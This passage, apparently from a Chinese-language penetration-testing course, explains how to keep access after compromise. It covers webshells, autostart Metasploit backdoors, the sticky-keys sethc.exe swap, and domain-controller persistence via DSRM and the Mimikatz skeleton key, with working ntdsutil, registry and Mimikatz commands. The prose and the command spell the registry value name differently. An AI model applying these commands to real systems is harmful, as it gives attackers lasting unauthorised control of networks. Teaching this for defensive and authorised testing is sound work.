 * 访问父域的共享目录

```java
dir \\{父域名}\c$
```

### 权限维持

有时服务器被重启，或者修改密码之后，我们就失去了对目标的控制权，因此我们得想办法去维持权限的持久性，保证我们在需要的时候都能够远程控制。

#### 1.WebShell

如果是 Webshell，那服务器重启后也没影响。关于 Webshell，前面课程已介绍过，此处不再赘述。

#### 2.系统后门

前面我们使用 metasploit 利用漏洞去获取 meterpreter 后门也是一种方式，你可以把后门添加到自启动项，保证重启后仍有效，这种比较适合开启监听后门，因为有时候我们没有一直在本地开启监听去等待对方连接。

粘滞键后门是最常用的后门留取方式，粘滞键是指连续按 5 次 Shift 键而触发的，它执行的是 windows\\system32\\sethc.exe 程序，我们用后门程序替换掉就可以。

![Drawing 28.png](https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEjSAG5D7AAB7pk5Jmlc919.png)  
图 29 粘滞键

除此之外，你还可以使用注册表、计划任务等方式来留取后门。

#### 3.域控维权

在拿到域控后，攻击者会对现有的权限进行持久化操作，以保证长期有效地控制它，常用的方法有以下两种。

* **DSRM**

DSRM，目录服务恢复模式是 Windows 域控制器的安全模块启动项，你可以通过它为域控制器设置一个本地管理员账户，然后同步其他账号的密码为 DSRM 密码，再修改注册表的 DrmAdminLogonBehavior 为 2，即允许使用 DSRM 管理员账号登录域控制器：

```java
＃ 同步DSRM密码
ntdsutil
set DSRM password
SYNC FROM DOMAIN ACCOUNT username
Q
Q
＃修改注册表配置：
reg add " HKLM\System\CurrentControlSet\Control\Lsa" /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
```

之后就可以用 mimikatz 去连接：

```java
sekurlsa::pth /domain:computername /user:Administrator /ntlm:{密码hash}
```

* **Skeleton Key**

Mimikatz 支持安装万能密码，通过以下命令即可将"mimikatz"作为万能密码去连接域控，哪怕域控密码被修改也可使用。

```java
privilege::debug 
misc::skeleton
```
